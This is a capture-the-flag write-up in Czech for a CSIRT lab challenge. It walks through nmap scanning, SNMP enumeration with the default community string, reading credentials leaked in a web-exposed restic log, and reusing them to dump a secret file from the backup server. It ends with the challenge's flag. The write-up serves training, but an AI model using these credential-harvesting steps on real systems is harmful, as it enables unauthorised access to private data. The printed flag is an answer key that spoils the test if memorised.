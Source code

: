 # Admin Johnson (3)

## Zadání

Hi, TCC-CSIRT analyst,

admin Johnson began testing backup procedures on server `johnson-backup.cypherfix.tcc`, but left the process incomplete due to other interesting tasks. Your task is to determine whether the current state is exploitable.

See you in the next incident!

## Nápovědy (Hints)

1. Admin Johnson is not strong on maintaining password hygiene.

## Řešení

Začneme skenováním otevřených portů

`nmap johnson-backup.cypherfix.tcc`

```text
PORT    STATE SERVICE
80/tcp  open  http
199/tcp open  smux
```

Na portu 80 to vypadá, že běží Apache server ve výchozím nastavení bez nahraných webových stránek.
Port 199 slouží pro protokol SMUX (SNMP Unix Multiplexer).

Zkusíme vyčíst SNMP údaje s výchozím community `public`.

`snmpwalk -v1 -c public johnson-backup.cypherfix.tcc`

```text
...
iso.3.6.1.2.1.25.4.2.1.5.1 = STRING: "/usr/bin/supervisord"
iso.3.6.1.2.1.25.4.2.1.5.7 = STRING: "/usr/sbin/apache2ctl -D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.8 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.9 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.14 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.18 = STRING: "-c /etc/scripts/restic.sh >> /var/www/html/1790c4c2883ad30be0222a3a93004e66/restic.err.log 2>&1"
iso.3.6.1.2.1.25.4.2.1.5.20 = STRING: "/etc/scripts/restic.sh"
iso.3.6.1.2.1.25.4.2.1.5.28 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.29 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.30 = STRING: "-D FOREGROUND"
...
```

Zkusíme web stránku <http://johnson-backup.cypherfix.tcc/1790c4c2883ad30be0222a3a93004e66/restic.err.log>.

```text
restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test check
using temporary cache in /tmp/restic-check-cache-3629819862
create exclusive lock for repository
Save(<lock/340d752ce5>) returned error, retrying after 552.330144ms: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.080381816s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.31013006s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.582392691s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 2.340488664s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 4.506218855s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 3.221479586s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 5.608623477s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 7.649837917s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 15.394871241s: server response unexpected: 500 Internal Server Error (500)
server response unexpected: 500 Internal Server Error (500)
github.com/restic/restic/internal/backend/rest.(*Backend).Save
    github.com/restic/restic/internal/backend/rest/rest.go:167
github.com/restic/restic/internal/backend.(*RetryBackend).Save.func1
    github.com/restic/restic/internal/backend/backend_retry.go:66
...
```

Z logu lze vyčíst, že se jedná o zálohování programem `restic` včetně přihlašovacího jména `johnson` a hesla `KGDkjgsdsdg883hhd`.

Vyčteme seznam zálohovaných souborů a jako heslo k repozitáři použijeme `KGDkjgsdsdg883hhd`.

`restic --no-lock -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test ls latest`

```text
/etc
/etc/secret
/etc/secret/flag
```

A zobrazíme obsah souboru `/etc/secret/flag`, který ukrývá hledaný FLAG.

`restic --no-lock -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test dump latest /etc/secret/flag`

## Flag

`FLAG{OItn-zKZW-cht7-RNH4}`
